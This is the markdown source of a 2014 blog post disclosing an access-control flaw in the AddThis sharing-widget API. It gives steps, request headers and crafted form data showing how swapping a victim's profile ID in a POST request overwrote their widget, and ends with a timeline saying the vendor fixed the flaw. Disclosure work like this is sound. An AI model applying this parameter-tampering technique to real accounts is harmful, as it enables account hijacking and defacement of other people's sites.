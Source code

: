 ```yaml
---
layout: post
title:  "Disclosure: How I'm able to take control of any Addthis.com user account!"
date:   2014-10-11 10:04:22
categories: responsible-disclosure
permalink: post/how-im-able-to-take-control-of-any-addthis-com-account/
---
```


### Description

During publishing this site I've added the Addthis.com plugin (one of the most popular plugin) for sharing content etc.. I'm was surprised when I discovered that I'm able to take complete control of any user account!.

> AddThis is the world's largest content sharing and social insights platform:
>
> 1. Easy-to-use tools help users to share your content and drive viral traffic
> 2. In-depth analytics provide insight into your audience and user activity
> 3. Powerful APIs let you create your own UI, access analytics, and more
> 

### Proof of Concept:

User_X = **ra-5438e922313abc3a** Attacker  
User_Y = **ra-538ce0c960e04da4** Victim  

`ra-XXXXXXXXXXXXXXXX reference to User ProfileId`

1. **User_X** visit the website of **User_Y** that use **Addthis plugin**  
2. **User_X** inspect the page source code and search for profileid string **ra-538ce0c960e04da4** of **User_Y**
3. **User_X login** into his Addthis.com account (**ra-5438e922313abc3a** was assigned to **User_X**)
4. **User_X** make a **POST Request** to:  **<a href="https://www.addthis.com/meta-data/boost-create-widget" class="lighter-red" title="AddThis - boost-create-widget" target="_blank">https://www.addthis.com/meta-data/boost-create-widget</a>** \\
endpoint with **crafted header**  ([Live HTTP Headers](https://addons.mozilla.org/it/firefox/addon/live-http-headers/ "Live HTTP Headers")) using method `boost-create-widget`
5. **Before User_X make a POST Request**, The **pub property** need to be changed with vulnerable site property value (ex. **(User_X) ra-5438e922313abc3a => (User_Y) ra-538ce0c960e04da4**)

#### Example POST Request Header

{% highlight http %}
Remote Address:208.49.103.220:443
Request URL:https://www.addthis.com/meta-data/boost-create-widget
Request Method:POST
Status Code:200 OK
Request Headersview parsed
POST /meta-data/boost-create-widget HTTP/1.1
Host: www.addthis.com
Connection: keep-alive
Content-Length: 1070
Pragma: no-cache
Cache-Control: no-cache
Accept: */*
[..]
{% endhighlight %}

#### Crafted POST Form Data

{% highlight http %}
pub:ra-538ce0c960e04da4      // (User_X) ra-5438e922313abc3a => (User_Y) ra-538ce0c960e04da4
template:_default
widget[enabled]:true
widget[title]:Follow
widget[size]:large
widget[orientation]:vertical
widget[elements]:.addthis_vertical_follow_toolbox
widget[id]:flwv
widget[services][0][id]:pwned
widget[services][0][service]:facebook
widget[services][0][svc]:facebook
widget[services][0][name]:Facebook
widget[services][0][url]:http://www.facebook.com/pwned
widget[services][1][id]:pwned
widget[services][1][service]:twitter
widget[services][1][svc]:twitter
widget[services][1][name]:Twitter
widget[services][1][url]:http://twitter.com/intent/follow?source=followbutton&variant=1.0&screen_name=pwned
widget[services][2][id]:pwned
widget[services][2][service]:linkedin
widget[services][2][svc]:linkedin
widget[services][2][name]:LinkedIn
widget[services][2][url]:http://www.linkedin.com/in/pwned 
{% endhighlight %}

Now **User_X** receive a `201 response`.  
While in, the **User_Y** website plugin data get updated with **pwned** property value setted by **User_X**.

Note that, a malicious user can perform any request through vulnerable user pub property id value.  
In addition, the website **Addthis.com is devoid largely** of controls **CSRF** for this reason there's no proof of concept, It is really clear..

### Example video scenario using Addthis "/boost-create-widget" method

<div class="photo_frame_center">
	<video width="480" height="360" controls>
		Sorry, your browser doesn't support embedded videos, 
		but don't worry, you can <a href="/video/security/responsible-disclosure/addthis-vulnerability.ogv">Download It</a>
		and watch it with your favorite video player!
		<source src="/video/security/responsible-disclosure/addthis-vulnerability.ogv" type='video/ogg; codecs="theora, vorbis"'>
	</video>
</div>

Watch in <a href="https://www.youtube.com/watch?v=RRkDVY97D88" class="lighter-red" title="How I'm able to take control of any Addthis.com user account!" target="_blank">YouTube</a>

### Disclosure:

* **10/10/2014** – Report to Addthis Support
* **13/10/2014** – Received a response from Addthis Support
* **14/10/2014** – Reply from Addthis that informs me that the bug was fixed
* **14/10/2014** – Public disclosure
